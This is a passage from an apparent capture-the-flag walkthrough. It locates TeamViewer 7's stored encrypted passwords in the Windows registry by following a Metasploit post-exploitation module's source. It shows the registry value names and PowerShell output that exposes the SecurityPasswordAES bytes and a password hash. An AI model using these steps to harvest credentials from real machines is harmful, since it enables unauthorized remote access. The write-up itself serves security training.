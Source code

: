 
There is a Metasploit module
`post/windows/gather/credentials/teamviewer_passwords`. But since I like to
avoid Meterpreter to see what’s going on under the hood, I’ll take a look at
the [source](https://github.com/rapid7/metasploit-
framework/blob/master//modules/post/windows/gather/credentials/teamviewer_passwords.rb).
There’s a list of registry keys, and the one that looks like version 7 is
`HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7`. For each location, it looks
for the following values:

  * OptionsPasswordAES
  * SecurityPasswordAES
  * SecurityPasswordExported
  * ServerPasswordAES
  * ProxyPasswordAES
  * LicenseKeyAES

I can take a look at that registry key:

    
    
    PS C:\> cd HKLM:\software\wow6432node\teamviewer\version7
    PS HKLM:\software\wow6432node\teamviewer\version7> get-itemproperty -path .
    
    StartMenuGroup            : TeamViewer 7
    InstallationDate          : 2020-02-20
    InstallationDirectory     : C:\Program Files (x86)\TeamViewer\Version7
    Always_Online             : 1
    Security_ActivateDirectIn : 0
    Version                   : 7.0.43148
    ClientIC                  : 301094961
    PK                        : {191, 173, 42, 237...}
    SK                        : {248, 35, 152, 56...}
    LastMACUsed               : {, 005056B99509}
    MIDInitiativeGUID         : {514ed376-a4ee-4507-a28b-484604ed0ba0}
    MIDVersion                : 1
    ClientID                  : 1769137322
    CUse                      : 1
    LastUpdateCheck           : 1584564540
    UsageEnvironmentBackup    : 1
    SecurityPasswordAES       : {255, 155, 28, 115...}
    MultiPwdMgmtIDs           : {admin}
    MultiPwdMgmtPWDs          : {357BC4C8F33160682B01AE2D1C987C3FE2BAE09455B94A1919C4CD4984593A77}
    Security_PasswordStrength : 3
    PSPath                    : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\software\wow6432node\teamviewer\vers
                                ion7
    PSParentPath              : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\software\wow6432node\teamviewer
    PSChildName               : version7
    PSDrive                   : HKLM
    PSProvider                : Microsoft.PowerShell.Core\Registry
    

`SecurityPasswordAES` is there from the list above. It just dumps a list of
integers:

